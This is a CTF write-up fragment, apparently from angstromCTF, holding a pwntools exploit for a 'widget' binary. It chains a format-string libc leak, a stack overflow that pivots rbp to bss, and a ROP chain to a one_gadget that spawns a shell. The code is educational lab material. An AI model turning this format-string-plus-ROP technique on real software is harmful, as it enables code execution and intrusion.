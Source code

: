 ```python
    p.sendlineafter(b'Contents: ',m)

elf = context.binary = ELF("./widget_patched",checksec=False)
libc = ELF("./libc6_2.35-0ubuntu3_amd64.so")
url,port = "challs.actf.co", 31320

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)

padding = b'A'*32

bss = 0x00404010+0x100

# first run
payload = b'%33$p|' # leaks libc
payload += b'A' * (32-len(payload))
payload += p64(bss) # rbp here is needed
payload += p64(0x004013e3) # goes back to Amount:, not main

amount(str(len(payload)).encode()) # amount should always be equal to len(content)
content(payload)

p.recvuntil(b'Your input: ')
leak = p.recvuntil(b'|',drop=True).decode()
leak = int(leak,16)
offset = 0x155555313e40-0x1555552ea000
libc.address = leak-offset
print("Leaked:",hex(leak))
print("Libc base:",hex(libc.address))

onegadget = libc.address + 0xebcf8
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbp = libc.address + 0x0000000000090529

# second run
payload = padding
payload += p64(bss) #rbp
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbp) + p64(0) + p64(0)
payload += p64(onegadget)

amount(str(len(payload)).encode())
content(payload)

p.interactive()
p.close()
```
{% endtab %}
{% endtabs %}
